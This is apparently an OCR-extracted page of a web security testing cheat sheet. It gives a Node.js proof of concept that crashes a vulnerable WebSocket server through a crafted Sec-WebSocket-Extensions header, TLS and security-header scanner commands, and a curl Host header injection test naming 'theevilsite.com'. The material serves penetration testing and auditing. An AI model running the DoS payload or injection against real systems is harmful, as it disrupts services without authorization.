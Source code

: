 \section{WebSocket Denial of Service Test}

\begin{lstlisting}[numbers=none]
	const WebSocket = require('ws');
	const net = require('net');
	const wss = new WebSocket.Server({ port: 3000 }, function () {
	  const payload = 'constructor';  // or ',;constructor'
	const request = [
		'GET / HTTP/1.1',
		'Connection: Upgrade',
		'Sec-WebSocket-Key: test',
		'Sec-WebSocket-Version: 8',
		`Sec-WebSocket-Extensions: ${payload}`,
		'Upgrade: websocket',
		'\r\n'
	  ].join('\r\n');
	const socket = net.connect(3000, function () {
		socket.resume();
		socket.write(request);
	  });
	});  
\end{lstlisting}

\section{TLS/SSL Verification}

TLSLED
\begin{lstlisting}[numbers=none]
sudo apt install tlssled
tlssled vulnerable-site.com 443
\end{lstlisting}

SSLSCAN
\begin{lstlisting}[numbers=none]
sudo apt install sslscan
sslscan https://vulnerable-site.com 
\end{lstlisting}

\section{HTTP Security Headers Verification}

SHCHEK
\begin{lstlisting}[numbers=none]
pip3 install shcheck
shcheck.py https://insecurity.blog
\end{lstlisting}

\section{HTTP Host Header Injection Test}

CURL
\begin{lstlisting}[numbers=none]
curl -s -D - --header 'Host: theevilsite.com' https://vulnerable-site.com > output && cat output | grep --color -E '^|theevilsite.com' 
\end{lstlisting}



